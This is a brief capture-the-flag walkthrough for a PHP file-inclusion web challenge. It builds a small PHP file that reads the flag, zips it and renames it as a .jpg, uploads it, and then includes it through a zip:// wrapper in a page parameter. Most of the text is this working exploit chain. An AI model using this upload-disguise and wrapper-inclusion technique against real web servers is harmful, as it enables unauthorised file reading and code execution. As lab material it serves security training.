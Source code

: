 # PHP Wrappers

# step 1: 

create file a.php

```php
# a.php
<?php
    echo file_get_contents("flag<name.....>.php"); # it is found similar ....
?>
```

# step 2:

```shell
$ zip payload.zip a.php && mv payload.zip payload.jpg

```

# step 3: upload -> id_image

# step 4: 
```shell
GET /web-serveur/ch43/index.php?page=zip://tmp/upload/<name>.jpg%23a.php
```
link this method: `https://book.hacktricks.xyz/pentesting-web/file-inclusion#zip-and-rar`